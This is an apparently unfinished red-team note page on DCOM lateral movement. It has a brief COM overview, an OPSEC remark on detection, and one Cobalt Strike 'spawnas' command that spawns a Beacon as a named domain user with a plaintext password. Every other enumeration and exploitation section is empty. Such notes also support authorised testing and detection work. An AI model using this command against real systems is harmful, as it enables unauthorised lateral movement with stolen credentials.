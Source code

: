 ### Technical Overview
COM (Component Object Model) objects are objects that are "exposed" on the operating system, much like an API.

These Objects allow other software to interact with itself and can be found in excess on any modern Windows operating system.
- They still have their uses, but the well documented COM objects that can be used for lateral movement are pretty easily spotted nowadays, of course your mileage can vary from environment to environment.
###### OPSEC
DCOM lateral movement has been one of the better lateral movement techniques for years, however as they became more popular and were starting to get more attention by bloggers and open source tooling, detection rates skyrocketed.
# C2 - Cobalt Strike
## Enumeration 
DCOM lateral movement is not built into Cobalt Strike. Furthermore, DCOM does not like token impersonation. As a result you will need a C2 channel as the user you wish to lateraly move with.

Please spawn a new Beacon using the following command (if your listener is called something other than HTTPS-SHORT, please replace with the name of your listener (can be tab completed)) 

```markdown
spawnas draconem\Giulio.Stanion d8PEZ#$UM6Vs!h5j HTTPS
```

## Exploitation 

```markdown
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```
## Exploitation 

```markdown
```

